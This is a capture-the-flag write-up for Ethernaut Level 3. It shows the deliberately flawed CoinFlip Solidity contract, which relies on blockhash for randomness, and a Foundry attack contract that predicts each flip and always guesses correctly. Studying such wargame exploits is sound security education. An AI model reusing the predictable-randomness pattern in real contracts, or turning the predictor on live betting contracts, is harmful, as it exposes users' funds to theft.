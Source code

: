 # Ethernaut Level 3

---

Contract:

```solidity
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

Since blockchains are deterministic systems, getting real random numbers is a challenge if we want to add randomness to our contracts. A common practice is to use `Chainlink VRF` to fulfill random number requests from our contracts while Chainlink nodes provide decentuality and safety.

In this contract, the way it attempts randomness is problematic: we can simply do the exact same thing in our attack contract and we will get the same result of  `side` as original contract. We want to first run the process before calling `flip` and feed the result directly to `_guess` so that we will acheive 100% success rate.

We use Foundry for solution. For `CoinFlipAttack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {
    ICoinFlip coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlipAddress) {
        coinFlip = ICoinFlip(_coinFlipAddress);
    }

    function attack() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        bool side = (blockValue / FACTOR) == 1 ? true : false;
        coinFlip.flip(side);
    }
}
```

We use an Interface since we mainly just want to deal with `flip` method from the original contract. Then in the attack contract, we reimplemented the "randomness" logic as original contract.
